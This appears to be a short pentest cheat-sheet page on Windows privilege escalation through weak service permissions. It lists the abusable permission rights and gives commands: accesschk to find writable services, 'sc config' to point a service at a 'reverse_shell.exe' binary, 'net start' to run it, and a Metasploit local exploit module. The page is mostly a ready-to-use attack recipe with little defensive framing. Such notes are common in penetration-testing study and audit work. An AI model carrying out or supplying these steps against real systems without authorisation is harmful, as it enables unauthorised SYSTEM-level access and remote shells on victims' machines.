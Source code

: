# Insecure Service Permissions

## Interesting Service Permissions

| Permission          | Description                                               |
|---------------------|-----------------------------------------------------------|
| GENERIC_ALL         | Inherits `SERVICE_CHANGE_CONFIG`                          |
| GENERIC_WRITE       | Inherits `SERVICE_CHANGE_CONFIG`                          |
| SERVICE_CHANGE_CONFIG | Able to alter service binary                            |
| WRITE_DAC           | Able to alter permissions → `SERVICE_CHANGE_CONFIG`       |
| WRITE_OWNER         | Able to become owner and change permissions               |

### 1) Acesschk.exe can be used to check what permission a particular user has to services. A wildcard is used to check all services.

    .\accesschk.exe /accepteula -uwcqv "<User>" *

### 2) The command below can be used to alter the binary to a new, malicious binary.

    sc config svcexample binpath= "\"C:\PrivEsc\reverse_shell.exe\""

### 3) Once the binary path has been changed the service can then be started by either using the command below or rebooting the system if permissions allow.

    net start <ServiceName>

## Alternate Method: Metasploit

    use exploit/windows/local/service_permissions

